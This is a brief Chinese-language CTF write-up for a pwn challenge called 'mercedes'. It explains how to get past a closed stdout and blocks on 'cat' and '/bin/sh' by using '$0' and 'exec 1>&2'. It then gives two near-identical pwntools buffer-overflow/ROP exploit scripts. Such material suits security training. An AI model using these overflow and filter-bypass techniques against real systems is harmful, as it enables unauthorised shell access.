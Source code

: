  ### 1    mercedes
### 考点：输出流的关闭close(1),以及对/bin/sh ,cat的禁用,和绕过
![[Pasted image 20240918125443.png]]
![[Pasted image 20240918125504.png]]

![[Pasted image 20240918125522.png]]

![[Pasted image 20240918125608.png]]

：这一题是对cat的禁止和/bin/sh的禁止，并且对输出流进行了关闭也就是close(1),我们需要拿到权限，并且进行流的重定向，也就是exec 1>&2,然后用cat flag。我们可以用$0代替/bin/sh，或者$0的机械码\\x24\\30代替。

WP1
```
from pwn import*

p=process("./mercedes")

elf=ELF("./mercedes")

main=elf.symbols['main']

context.log_level="debug"

# 0x00000000004005ae : ret

pay=b"\x24\x30"

p.send(pay)

pay=b'a'*0x28+p64(0x0000000000400983)+p64(0x0000000000601090)+p64(0x0000000000400717)

p.send(pay)

  

p.interactive()
```


WP2
```
from pwn import*

p=process("./mercedes")

elf=ELF("./mercedes")

main=elf.symbols['main']

context.log_level="debug"

# 0x00000000004005ae : ret

pay=b"$0"

p.send(pay)

pay=b'a'*0x28+p64(0x0000000000400983)+p64(0x0000000000601090)+p64(0x0000000000400717)

p.send(pay)

  

p.interactive()
```